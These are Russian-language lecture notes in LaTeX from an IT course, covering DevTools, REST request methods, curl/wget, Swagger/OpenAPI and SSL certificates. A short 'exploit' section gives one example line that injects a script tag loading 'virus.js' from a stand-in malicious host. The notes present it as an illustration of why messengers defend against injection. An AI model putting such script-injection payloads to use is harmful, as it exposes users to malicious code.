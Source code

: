 \documentclass[main.tex]{subfiles}
\begin{document}
\begin{leftbar}
    \LARGE{F12} -- Chrome DevTools
\end{leftbar}

Сообщение ВК: POST-запрос

Основная суть работы  Rest API: мы выбираем \textit{формат представления} (м.б. json, YAML, ...).
Виды запросов: POST, GET, PUT, DELETE, PATCH

Обычно метод POST используется для отправки данных на сервер, PUT -- обновления (как и UPDATE), GET -- получения

\textbf{CROSS} -- () %

Бывает, что запрос нужно отправлять не на сам сайт.


\subsection{cURL, wget}

Эти две утилиты делают примерно одно и то же.
\texttt{wget} входит в GNU.

С их помощью можно отлаживать запросы на сервер.

\textbf{Swagger} позволяет собрать http-запрос. \\

У нас есть некоторый метод (неважно, какой именно).
Мы вызываем его вручную через командную строку.

В адресной строке по умолчанию GET-запрос.

\begin{verbatim}
    curl -X <request>
\end{verbatim}

POST-запрос: немного сложнее, но мы только что это посмотрели.

В современном мире Swagger переименован в \texttt{OpenAPI}.

\subsection{exploit}

\begin{verbatim}
    <script>https://badhack.ru/virus.js</script>
\end{verbatim}

Если это встроить в сообщение в мессенджере, где нет защиты от эксплойта, можно встроить вредоносный скрипт (от будет подгружаться).

Почему в ТГ долго появлялся Markdown?
--Защита от эксплойта.

Может быть эксплойт в БД (с).

\begin{leftbar}

    ДЗ: см. в документе "Программа курса IT Python"

\end{leftbar}

Самоподписной сертификат не будет валидирован браузером.

Let's Encrypt -- бесплатный SSL-сертификат!!!
Платные нужны для более быстрой верификации браузерами.
\end{document}
